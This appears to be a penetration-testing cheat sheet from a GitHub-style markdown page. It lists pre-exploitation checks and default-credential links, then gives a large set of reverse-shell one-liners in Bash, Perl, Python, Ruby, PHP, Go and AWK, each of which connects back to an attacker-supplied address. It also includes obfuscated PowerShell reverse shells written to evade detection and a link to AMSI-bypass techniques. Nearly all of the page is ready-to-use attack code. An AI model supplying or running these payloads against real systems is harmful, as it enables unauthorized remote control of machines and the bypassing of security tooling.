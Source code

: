 ## Pre-requisites for runninging exploits

- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?


## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

Bash: 

- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1

Perl:

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python: 

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

IPv6: 

- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 

Ruby:

- ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'


PHP:

Pentest Monkey Reverse Shell for PHP:
In Kali: 

/usr/share/webshells/php/php-reverse-shell.php

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Windows Powershell Oneliner: 

Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you. 

```
# Offsec-callback-v2
$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
# checkin to target
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
# AND
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
Start-Sleep -Seconds 5
# checkout of target
$ezYSZf.Close()
```

Linux Powershell Oneliner:

```
$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
$ezYSZf.Close()
```

Golang: 

- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK: 

- awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null


Other Reverse Shell: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Other Resources 

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 





